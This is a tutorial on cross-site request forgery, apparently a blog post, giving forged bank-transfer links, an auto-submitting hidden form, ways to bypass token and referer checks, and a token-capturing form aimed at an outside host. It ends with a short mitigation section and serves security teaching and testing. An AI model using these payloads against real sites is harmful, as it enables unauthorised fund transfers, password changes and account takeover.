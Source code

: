### What is csrf:-
Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application. 
### CSRF flaw and its exploitation:-
CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim’s behalf (though note that this is not true of login CSRF, a special form of the attack let me describe it ). For most sites, browser requests automatically include any credentials associated with the site, such as the user’s session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim. CSRF attacks target functionality that causes a state change on the server, such as changing the victim’s email address or password, or purchasing something. Forcing the victim to retrieve data doesn’t benefit an attacker because the attacker doesn’t receive the response, the victim does. As such, CSRF attacks target state-changing requests. An attacker can use CSRF to obtain the victim’s private data via a special form of the attack, known as login CSRF. The attacker forces a non-authenticated user to log in to an account the attacker controls. If the victim does not realize this, they may add personal data such as credit card information to the account. The attacker can then log back into the account to view this data, along with the victim’s activity history on the web application. t’s sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called stored CSRF flaws. This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the impact is increased
because the victim is more likely to view the page containing the attack than some random page on the Internet. The impact is also increased because the victim is sure to be authenticated to the site already. CSRF attacks are also known by a number of other names, including XSRF, “Sea Surf”, Session Riding, Cross-Site Reference Forgery, and Hostile Linking. Microsoft refers to this type of attack as a One-Click attack in their threat modeling process and many places in their online documentation.
#### CSRF Example:
Before executing an assault, a perpetrator typically studies an application in order to make a forged request appear as legitimate as possible. 
For example, a typical GET request for a $100 bank transfer might look like:
```
GET http://netbank.com/transfer.do?acct=PersonB&amount=$100 HTTP/1.1
```
An attacker can modify this script so it results in a $100 transfer to their own account. Now the malicious link look like:
```
GET http://netbank.com/transfer.do?acct=AttackerA&amount=$100 HTTP/1.1
```
A bad actor can embed the request into an innocent looking hyperlink:
```
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=$100">Read more!</a>
```
Next the attacker can distribute the hyperlink via email to a large number of bank customers. Those who click on the link while logged into their bank account will unintentionally initiate the $100 transfer.
 Note that if the bank’s website is only using POST requests, it’s impossible to frame malicious requests using a  href tag. However, the attack could be delivered in a form tag with automatic execution of the embedded JavaScript. 
 his is how such a form may look like:
 ```
  <body onload="document.forms[0].submit()">
   <form action="http://netbank.com/transfer.do" method="POST">
     <input type="hidden" name="acct" value="AttackerA"/>
     <input type="hidden" name="amount" value="$100"/>
     <input type="submit" value="View my pictures!"/>
   </form>
 </body>
 ```

###  Bypasses for CSRF attack:
#### Change the request method:
Another thing worth trying is changing the request method of the request. If the sensitive request that you would like to forge is sent via the POST method, try converting the request to a GET request. And if the action is done via a GET, try converting it into a POST. The application might still execute the action and the same protection mechanism is often not in place.
For example, this request:
```
POST /change_password
POST body:
new_password=qwerty
```
Can be rewritten as:
```
GET /change_password?new_password=qwerty
```
### CSRF Protection via Tokens:

Just because a site is using CSRF tokens does not mean that it is validating them properly. Here are a few things that you can try to bypass CSRF protection via tokens.
#### Delete the token param or send a blank token:
Not sending a token works fairly often because of this common application logic mistake: applications sometimes only check the validity of the token if the token exists, or if the token parameter is not blank. In this case, sending a request without the token, or a blank value as the token may be all you need to bypass the protection.
For example, if a legitimate request looks like this:
```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```
Try this:
```
POST /change_password
POST body:
new_password=qwerty
```
Or, this:
```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=
```
#### Use another session’s CSRF token:
The application might only be checking if the token is _valid_ or not, and not checking if it _belongs to the current user_. If that’s the case, you can simply hard code your own CSRF token into the payload. Let’s say the victim’s token is _871caef0757a4ac9691aceb9aad8b65b_, and yours is YOUR_TOKEN. You can obtain your own CSRF token easily but not the victim’s token. Try to bypass the CSRF protection by providing your own token in the place of the legitimate token.
In other words, instead of sending this:
```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```
Send this:
```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=YOUR_TOKEN
```
### CSRF Protection via Referer:
Let’s say that _attacker.com_ is a domain that you own. And _bank.com_ is the site that you are attacking. The site is not using CSRF tokens but is checking the referer header instead. What can you do now?
#### Remove the referer header:
Similar to sending a blank token, sometimes all you need to do to bypass a referer check is to simply not send a referer. To do this, you can add the following meta tag to the page hosting your payload:
```
<meta name=”referrer” content=”no-referrer”>
```
The application might only be validating the referer if one is sent, in that case, you’ve successfully bypassed its CSRF protection!
#### Bypass the regex:
If the referer check is based on a whitelist, you can try bypassing the regex used to validate the URL. For example, you can try placing victim domain name in referer URL as a subdomain or as a directory:
If the site is looking for “_bank.com”_ in the referer URL, maybe “_bank.com.attacker.com”_ or “_attacker.com/bank.com”_ will work.
### Extracting token via HTML injection:
This technique utilizes HTML injection vulnerability using which an attacker can plant a logger to extract the CSRF token from that web page and use that token. An attacker can plant a link such as
```
<form action=”http://shahmeeramir.com/acquire_token.php”></textarea>
```
### Decoding CSRF tokens:
Another method to bypass CSRF is to identify the algorithm of the CSRF token. In my experience CSRF tokens are either MD5 or Base64 encoded values. You can decode that value and encode the next one in that algorithm and use that token. For instance “a0a080f42e6f13b3a2df133f073095dd” is MD5(122). You can similarly encrypt the next value MD5(123) to for CSRF token bypass.


### Mitigation of CSRF attack:-
A number of effective methods exist for both prevention and mitigation of CSRF attacks. From a user’s perspective, prevention is a matter of safeguarding login credentials and denying unauthorised actors access to applications. The most robust way to defend against CSRF attacks is to include a CSRF token within relevant requests. The token should be:
-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.


## Conclusion:

CSRF is a vulnerability that allows attackers to circumvent the SOP (same origin policy) which leas to various unintended actions on victims account.

There are various bypasses to bypass the csrf protection implemented by the web applications as below:

- Sending only csrf token  header with empty token.

- Use csrf token generated in another session.

- Try submitting same length randomly generated csrf token to check if it validation is only based on token length.
